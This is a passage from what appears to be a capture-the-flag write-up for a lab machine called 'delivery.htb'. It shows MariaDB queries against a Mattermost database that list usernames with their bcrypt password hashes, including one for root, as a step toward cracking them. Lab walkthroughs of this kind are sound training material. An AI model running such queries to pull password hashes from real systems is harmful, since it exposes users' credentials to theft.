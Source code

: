 Lot's of tables, but users is what we're interested in:

```text
MariaDB [mattermost]> select * from Users;
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+--------------------------------------------------------------------------------------------+-----------+-----------+
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username                         | Password                                                     | AuthData | AuthService | Email                   | EmailVerified | Nickname | FirstName          | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                   | MfaActive | MfaSecret |
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+--------------------------------------------------------------------------------------------+-----------+-----------+
| 1tdemy8ihby3z8qutmjn55z98w | 1621502572204 | 1621502572204 |        0 | pppppp                           | $2a$10$zeyWCljXan6dB19R8xwzdeFoLk9/xqArxgu3RJl39FxrFVYXkJM8. | NULL     |             | 8569304@delivery.htb    |             0 |          |                    |          |          | system_user              |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1621502572204 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}                 |         0 |           |
| 3mix7otk5bdeucfzn7y5zp8koy | 1621505082885 | 1621505284638 |        0 | pencer.io                        | $2a$10$Ps5byJoZQDvkEQ.7BLtFzuYXWXJaDNUyUOLLGWJVYt0W/zIEGzxZW | NULL     |             | 2745007@delivery.htb    |             1 |    
```

Not really readable like that, let's select what we want now we can see the column names:

```text
MariaDB [mattermost]> SELECT username, password FROM Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| pppppp                           | $2a$10$zeyWCljXan6dB19R8xwzdeFoLk9/xqArxgu3RJl39FxrFVYXkJM8. |
| pencer.io                        | $2a$10$Ps5byJoZQDvkEQ.7BLtFzuYXWXJaDNUyUOLLGWJVYt0W/zIEGzxZW |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| r1c4rd0                          | $2a$10$dNsN/QGmRVdElviAzmmJfOg3w0B.WKxFbxC0trhcC8h7gqI06zbvC |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| haxor1337                        | $2a$10$pQ.xhadY2hm/Enfut4MGBuXQLbgZIX6WB/EH4X63x3uwMFj6uMX8G |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| passssss                         | $2a$10$7WDhwTi78g5w316y7ufa0eBZLjpnmem4rmSsGFREt/c406Kt/v9YS |
+----------------------------------+--------------------------------------------------------------+
12 rows in set (0.000 sec)
```
